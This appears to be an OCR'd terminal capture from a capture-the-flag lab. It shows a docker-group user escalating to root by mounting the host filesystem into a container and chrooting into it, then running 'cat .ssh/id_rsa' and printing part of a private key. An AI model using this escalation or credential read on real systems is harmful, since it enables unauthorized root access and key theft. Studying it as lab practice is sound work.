 ```
1 package can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00t@ultratech-prod:~$ ls
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Oct  7 14:38 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Oct  7 14:38 .cache
drwx------ 3 r00t r00t 4096 Oct  7 14:38 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
^C
r00t@ultratech-prod:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
r00t@ultratech-prod:~$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami  
root
# /bin/bash
root@ad624c3147a8:~# ls -a
.  ..  .bash_history  .bashrc  .cache  .emacs.d  .gnupg  .profile  .python_history  .ssh  private.txt
root@ad624c3147a8:~# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
hQaP7omtbyo0dczKGkeAVCe6ARh8woiVd2zz5SHDoeZLe1ln4KSbIL3EiMQMzOpc
jNn7oD+rqmh/ygoXL3yFRAowi+LFdkkS0gqgmwIDAQABAoIBACbTwm5Z7xQu7m2J
tiYmvoSu10cK1UWkVQn/fAojoKHF90XsaK5QMDdhLlOnNXXRr1Ecn0cLzfLJoE3h
YwcpodWg6dQsOIW740Yu0Ulr1TiiZzOANfWJ679Akag7IK2UMGwZAMDikfV6nBGD
wbwZOwXXkEWIeC3PUedMf5wQrFI0mG+mRwWFd06xl6FioC9gIpV4RaZT92nbGfoM
BWr8KszHw0t7Cp3CT2OBzL2XoMg/NWFU0iBEBg8n8fk67Y59m49xED7VgupK5Ad1
5neOFdep8rydYbFpVLw8sv96GN5tb/i5KQPC1uO64YuC5ZOyKE30jX4gjAC8rafg
o1macDECgYEA4fTHFz1uRohrRkZiTGzEp9VUPNonMyKYHi2FaSTU1Vmp6A0vbBWW
```